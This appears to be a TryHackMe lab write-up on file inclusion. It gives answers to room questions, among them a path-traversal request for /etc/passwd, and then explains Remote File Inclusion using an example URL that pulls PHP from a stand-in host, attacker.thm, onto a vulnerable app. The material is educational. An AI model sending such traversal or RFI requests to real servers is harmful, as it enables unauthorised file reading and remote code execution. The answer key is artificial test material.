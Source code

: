 **Answer the questions below**

1. Give Lab #3 a try to read **/etc/passwd**. What is the request look like? `/lab3.php?file=../../../../etc/passwd__`
    
2. Which function is causing the directory traversal in Lab #4? `file_get_contents`
    
3. Try out Lab #6 and check what is the directory that has to be in the input field? `THM-profile`
    
4. Try out Lab #6 and read **/etc/os-release**. What is the **VERSION\_ID** value? `12.04`
    

## Remote File Inclusion - RFI

Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow\_url\_fopen option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure
    
* Cross-site Scripting (XSS)
    
* Denial of Service (DoS)
    

  

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png align="left")

RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server [http://attacker.thm/cmd.txt](http://attacker.thm/cmd.txt) where cmd.txt contains a printing message  Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as [http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt](http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt). If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: [http://MACHINE\_IP/playground.php](http://MACHINE_IP/playground.php) to try out an RFI attack.
